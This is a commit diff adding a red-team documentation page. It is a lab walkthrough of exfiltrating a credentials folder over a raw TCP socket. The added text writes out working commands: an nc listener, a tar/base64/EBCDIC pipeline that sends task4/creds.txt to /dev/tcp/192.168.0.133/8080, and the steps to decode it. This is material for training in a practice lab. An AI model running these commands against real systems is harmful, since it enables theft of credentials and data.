

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/exfiltration/tcp.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/exfiltration/tcp.md
+++ b/source/docs/exfiltration/tcp.md
@@ -1 +1,55 @@
 # Exfiltration using TCP socket
+
+Using the TCP socket is one of the data exfiltration techniques that can be used in a non-secured environment
+where there are no network-based security products (to speak of, as far as we know). This kind of exfiltration
+is easy to detect because it relies on non-standard protocols. One of the benefits of this technique is that it
+encodes the data during transmission and makes it harder to examine.
+
+`ssh` into the jump host:
+
+    ssh thm@<IP jumphost>
+
+Use the `nc` command to receive data on port 8080, store the data in the `/tmp/` directory and name it
+`task4-creds.data`:
+
+    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
+
+Move on to the victim machine that contains the data (thm:tryhackme):
+
+    thm@jump-box$ ssh thm@victim1.thm.com
+
+Check the `creds.txt` file on the victim machine:
+
+    thm@victim1:~$ cat task4/creds.txt
+
+Exfiltrate data over TCP Socket:
+
+    thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
+
+* `tar zcf` - create a new archive file, using gzip to compress the selected folder.
+* `base64` - encode the new compressed archive.
+* `dd conv=ebcdic` - create and copy a backup file from it, using EBCDIC encoding.
+* `> /dev/tcp/192.168.0.133/8080` - redirect the output to transfer it using the TCP socket on the specified IP and
+port.
+
+Check the received data on the jumphost:
+
+    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
+    Listening on [0.0.0.0] (family 0, port 8080)
+    Connection from 192.168.0.101 received!
+
+    thm@jump-box$ ls -l /tmp/
+    -rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
+
+Convert the received data back to its original state:
+
+    thm@jump-box$ cd /tmp/
+    thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
+
+Unarchive `task4-creds.tar`:
+
+    thm@jump-box$ tar xvf task4-creds.tar
+
+Confirm the received data:
+
+    thm@jump-box$ cat task4/creds.txt
```
Also changed, not shown: source/docs/exfiltration/infra.md (+16 -0 lines), source/_static/images/exfiltration.png (added).
